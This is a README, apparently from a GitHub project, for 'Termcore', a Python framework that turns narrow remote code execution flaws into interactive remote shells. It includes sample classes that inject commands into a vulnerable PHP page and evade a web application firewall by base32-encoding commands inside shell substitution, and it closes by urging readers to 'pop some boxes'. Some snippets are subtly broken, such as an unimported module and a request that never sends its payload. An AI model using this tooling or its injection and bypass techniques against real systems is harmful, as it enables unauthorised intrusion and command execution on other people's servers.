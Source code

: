# Termcore

## Getting remote shells from narrow rce's


# Sample Uses

### Sample shell with hidden user *this is just a sample this is not by any means secure*

```py
from termcore import termcore
import os

class myTerm(termcore):
	def Exec(self, payload):
		os.system(payload)

	def customCommands(self, command, params):
		if command == 'whoami':
			print("That command is blacklisted")
			return True
		return False
		
term = myTerm("h", "kali")
```

### Sample shell From a RCE vulnerability (simple)

```py
from termcore import termcore
import os
import base64
import requests

url = 'http://example.com/vulnerable-page.php'

class myTerm(termcore):
	def preExec(self, command, params):
		return '; exec("' + command + " " + params + '")'

	def postExec(self,response):
	    response = re.sub(r"\<.*\>", "", response)
	    return response

	def Exec(self, payload):
		return requests.post(url).text

term = myTerm("www-data", "example.com")
```


### Sample shell From a RCE vulnerability and WAF bypass (advanced)

```py
from termcore import termcore
import os
import base64
import requests

sessid = 'S0m5S3SS10n1Dh3R3' 
url = 'http://example.com/remotecommands'
headers = {
	'Cookie' : 'session=' + sessid,
	'Content-Type': 'application/json'
}

class myTerm(termcore):
	def preExec(self, command, params):
		return "$(''base32 -''d <<< '" + str(base64.b32encode((command + " " + params).encode())) + "')"

	def postExec(self,response):
	    response = re.sub(r"\<.*\>", "", response)
	    return response

	def Exec(self, payload):
		return requests.post(url, data={'schedule': payload}, headers=headers).text

term = myTerm("www-data", "waffedexample.com")
```


# So, what to do?

Well, `import termcore from termcore`, override the stumps, pop some boxes.

## Stumps

### preExec(self, command, params):
> Gets whatever user has entered, and prepares and returns the payload.
> In an imaginary scenario where user needs to wrap their command in $ signs and user enters `ls -al`:
- command: ls
- params: -al
- should return: "$ " + command + " " + params + " $"

### Exec(self, payload):
> Get the payload executed, capture and return the raw response.

For example, 
- if you are just playing in your local, do `os.system(payload)`
- if you are on remote and need to send http request, your preExec should have your payload ready. Send it via requests.get/post
- if you need to send it to a socket on remote, use sockets to send the payload and get the response.

### postExec(self, response):
> Gets whatever response is returned from Exec, and cleans the output. Returns response from the user command.

So if RCE response is returned in as a cookie, get http response and only return the cookie.

If RCE response is returned in a div id="something", parse the html and return only the div innerhtml.

### cd(self, directory): (*OPTIONAL*)
> change working directory.

cd is implemented on the terminal, as it is with any terminal program. If you need to change directories, implement your own logic for it.

### customCommands(self,command, params): (*OPTIONAL*)
> Evaluated first before the Exec. Should return `True` if a custom command is being processed, and `False` if not.

